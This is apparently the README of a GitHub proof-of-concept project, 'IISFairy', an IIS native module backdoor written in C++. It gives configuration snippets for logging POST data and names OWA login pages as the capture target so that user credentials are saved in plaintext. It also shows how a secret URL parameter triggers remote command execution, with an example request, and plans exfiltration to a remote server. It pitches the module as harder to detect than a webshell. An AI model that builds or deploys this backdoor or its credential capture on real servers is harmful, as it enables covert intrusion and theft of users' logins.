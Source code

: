 # IISFairy
Simple PoC IIS Native module coded in c++, it's able to capture post request to a specific url and exucte commands through url request.

# Settings
Before compiling make sure to set below settings so it suits to your needs.

<b>Logging part :</b>

--> Page to save Post Request for :

PCWSTR getPostRequestfromthisUrl = L"yourmomistheiisfairy.html";

--> Trigger parameter in Post Request to start the log :

LPCSTR lpFound = strstr((LPCSTR)FormData, "username");

--> Local location to save logfile to :

std::wofstream outputFile("C:\\yourmomtheiisfairy.txt", std::ios::out | std::ios::app);

<b>CMD part :</b>

--> Parameter in get url request to activate cmd detection, a.k.a. password :

PCWSTR activateCMDtrigger = L"secretkey=iisfairy";

--> Parameter in get url request to get cmd from :

std::string paramValue = UrlDecode(ExtractQueryParamValue(urlBuffer, "sauce"));

--> Url request example to display C:\ directory :

http://localhost/yourmomistheiisfairy.html?secretkey=iisfairy&sauce=dir%20C:\

# Todo

--> Save captured post data handling ;

Use ping to send capatures post data back, use post url request to save data on remote server, 

--> Code a python client shell to interact as a "liveshell"

--> Tidy all my shit up.

--> Bang the IISFairy


# Attack scenarion or should i say usage scenario ;-)

--> Set capture url to /owa/owa to save users login credentials in plaintext.
--> Use it as a build in backdoor, it's way for flexible, less detecable then a webshell.
    If uses right this backdoors the whole IIS server in compare to a webshell which is just a single file.
    You can execute the cmd's basically by calling url, no matter if page exists or not, etc.


